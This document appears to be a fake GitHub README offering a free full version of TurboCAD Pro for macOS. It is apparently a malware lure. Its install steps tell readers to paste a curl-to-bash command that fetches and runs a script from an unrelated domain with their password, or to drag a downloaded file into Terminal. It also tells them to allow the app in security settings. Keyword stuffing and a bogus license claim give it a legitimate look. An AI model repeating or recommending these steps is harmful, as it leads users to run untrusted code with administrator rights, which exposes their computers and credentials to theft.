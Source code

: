 <p align="center">
  <img src="https://i.ibb.co/Q3cjpNyB/1616679918-turbocad.png" alt="TurboCAD Pro macOS Banner" />
</p>

<h1 align="center">TurboCAD Pro for macOS</h1>

<p align="center">
  🧱 A robust 2D/3D CAD application designed for architecture, engineering, and precision design on macOS.  
  <br><br>
  ✅ Supports Apple Silicon (M1/M2/M3) and Intel  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/197" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20TURBOCAD%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download TurboCAD Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/jP3XYG2z/1616683143-1-turbocad.jpg" alt="TurboCAD Pro UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is TurboCAD Pro for macOS?

**TurboCAD Pro for macOS** is a feature-rich CAD design software tailored for professional architects, engineers, and industrial designers. With advanced 2D drafting and 3D surface/solid modeling, it’s a versatile solution for creating floor plans, mechanical parts, architectural drawings, and technical illustrations.

Designed to run natively on **Apple Silicon** and optimized for macOS, TurboCAD Pro delivers fast performance and deep precision, offering parametric constraints, photorealistic rendering, and full DWG/DXF compatibility for AutoCAD interoperability.

---

## ✅ Why Choose TurboCAD Pro?

- 📐 **Professional 2D Drafting Tools**  
- 🧱 **Powerful 3D Modeling & Visualization**  
- 🔁 **DWG/DXF Compatible with AutoCAD**  
- 🖼️ **Photorealistic Rendering & Presentation Tools**  
- ⚙️ **Parametric Design & Constraints**  
- 📊 **Bill of Materials & Database Connectivity**  
- 🍎 **Fully Optimized for macOS and Apple Silicon**  
- 💡 **Architectural & Mechanical Design Templates**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/ns29fJRV/1616683202-3-turbocad.jpg" alt="3D Modeling in TurboCAD Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/R4JQB5YY/1616683157-2-turbocad.jpg" alt="2D Drafting Interface TurboCAD" />
</p>

---

## 🚀 Key Features

- 2D drawing tools: lines, arcs, curves, dimensions  
- 3D surface & solid modeling engine  
- Extrude, revolve, boolean, shell, and fillet tools  
- Snapping, alignment, and geometric constraints  
- Support for DWG, DXF, STL, OBJ, 3DS, STEP, IGES  
- Customizable UI with tool palettes and hotkeys  
- Built-in rendering engine for presentation  
- Works completely offline – no cloud dependencies

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow TurboCAD Pro under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-2D%2F3D+CAD+Design-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Drafting+Modeling+Rendering-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ TurboCAD Pro – Design with Accuracy

Thanks for using **TurboCAD Pro for macOS**.  
Where precision meets performance.

---

## 🧭 Usage Context

TurboCAD Pro is designed for offline CAD work in architecture, engineering, and 3D product design.  
No background sync or telemetry is involved.  

Suitable for individual professionals and local design teams.  
Not affiliated with Apple or Autodesk.

---

## 🔍 Tags

```text
turbocad pro for mac download, 2d cad software macbook pro, 3d modeling turbo cad mac m1, autocad alternative mac os, dwg dxf cad viewer and editor mac, architectural design app for mac, turbocad parametric constraints macos, mac cad software for engineers, photoreal rendering cad tool mac, turbocad pro offline installer mac, native apple silicon cad solution mac, create floor plans and models mac, turbocad stl obj iges export mac, turbo cad full version mac download, cad precision drawing and modeling mac
